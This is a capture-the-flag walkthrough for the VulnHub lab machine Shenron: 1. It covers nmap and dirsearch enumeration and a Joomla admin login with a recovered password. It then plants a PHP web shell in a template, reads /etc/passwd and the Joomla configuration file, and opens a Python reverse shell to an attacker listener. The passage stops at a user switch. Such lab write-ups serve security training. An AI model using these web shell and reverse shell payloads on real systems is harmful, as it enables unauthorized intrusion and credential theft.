








::::::::::::::::::::: page
# Shenron: 1 {#shenron-1 .title}

\

## 

## Shenron: 1

- **[Shenron: 1]{style="color:#237522;"}** :-

<!-- -->

- Download the machine : <https://www.vulnhub.com/entry/shenron-1,630/>

- Open ova file .
- Then click finish .
- Start the machine .

1.  [Network Scanning]{style="color:#9141ac;"} :

- Find the machine IP :

::: codebox
    nmap -sn 192.168.2.0/24
:::

- Run nmap master command :

::: codebox
    nmap -v -Pn -sT -sV -sC -A -O -p- 192.168.2.171
:::

- Find available port in the machine ( Optional ) :

::: codebox
    nmap -v -p- 192.168.2.171
:::

- 

::: codebox
    nmap -sC -sV -A 192.168.2.171
:::

- This command runs an aggressive scan and uses the http-enum script to
  identify potential CGI directories .

::: codebox
    nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.2.171
:::

1.  [Web Enumeration]{style="color:#9141ac;"} :

- IP visit in browser : <http://192.168.2.171/>

<!-- -->

- Directory brute force :

::: codebox
    dirsearch -u http://192.168.2.171 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 
:::

- Find the parameter :

::: codebox
    /test
    /joomla
:::

- Visit the parameter : <http://192.168.2.171/test/>
  <http://192.168.2.171/joomla/>

<!-- -->

- In /test parameter we found password file :

- Open the file and view the source code :

- Now again directory brute force in /joomla parameter :

::: codebox
    dirsearch -u http://192.168.2.171/joomla/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
:::

- Found important parameter /administrator :

- Visit the /administrator parameter :
  <http://192.168.2.171/joomla/administrator/index.php>

- Login with admin :

::: codebox
    Username : admin
    Password : 3iqtzi4RhkWANcu@$pa$$
:::

- After login go to Extensions .

::: codebox
    Go to Extension → Templates →Templates.
:::

- Select the template to use. I choose Prtotostar.

- Click new file to create a file :

- Inject the php reverse shell code in the file :

::: codebox
    <?php system($_GET['cmd']); ?>
:::

- Then click the save to saved the file .

- Now call the file with the command in browser :

::: codebox
    http://192.168.2.171/joomla/templates/protostar/reverse_shell.php?cmd=id
:::

::: codebox
    http://192.168.2.171/joomla/templates/protostar/reverse_shell.php?cmd=cat%20/etc/passwd
:::

::: codebox
    http://192.168.2.171/joomla/templates/protostar/reverse_shell.php?cmd=pwd
:::

1.  [Reverse Shell via Python]{style="color:#9141ac;"} :

- Listener on Kali :

::: codebox
    nc -lvnp 443
:::

- Reverse Shell Payload run in browser :

::: codebox
    ?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.2.218",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/bash")'
:::

- We got the shell :

- Read joomla configuration file :

::: codebox
    cat /var/www/html/joomla/configuration.php
:::

- Now switch to user jenny :

::: codebox
    su jenny
:::

:::::::::::::::::::::
